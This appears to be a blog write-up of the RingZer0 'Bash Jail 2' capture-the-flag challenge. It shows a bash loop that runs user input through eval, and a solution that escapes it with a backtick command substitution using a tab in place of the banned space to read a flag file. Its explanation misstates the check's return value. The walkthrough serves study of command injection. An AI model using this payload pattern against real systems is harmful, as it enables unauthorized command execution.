 ```yaml
---
title: "Bash Jail 2"
date: 2022-07-24T12:28:56+05:30
tags:
- Bash
- CTF
- RingZer0
- Sandbox Escape
draft: false
---
```


# The challenge
Logging into the box we are told that the flag is located at `/home/level2/flag.txt`

### Challenge bash code
```bash
function check_space {
        if [[ $1 == *[bdks';''&'' ']* ]]
        then 
         return 0
        fi

        return 1
}

while :
do
        echo "Your input:"
        read input
        if check_space "$input" 
        then
         echo -e '\033[0;31mRestricted characters has been used\033[0m'
        else
         output="echo Your command is: $input"
         eval $output
        fi
done 
```

# Inference
This time, the `check_space` function returns a `1` if there are any characters in the input
string among `b`,`d`,`k`,`s`, a semicolon, an ampersand and a whitespace. If the function does
return 1, we get a "restricted characters" message and no further processing happens.

However, if our input passes the check, the program echoes `"Your command is: $input"`.
We can use a simple command like `cat flag.txt` in backticks (command substitution) to execute
it in the `eval` statement. However, whitespaces are not allowed. To bypass this, we can use a
tab in place of the whitespace.

# Solution
We give the script the following input:
```
`cat	flag.txt`
```

Which gets evaluated and prints the flag.
```
Your command is: FLAG-a78i8TFD60z3825292rJ9JK12gIyVI5P
```
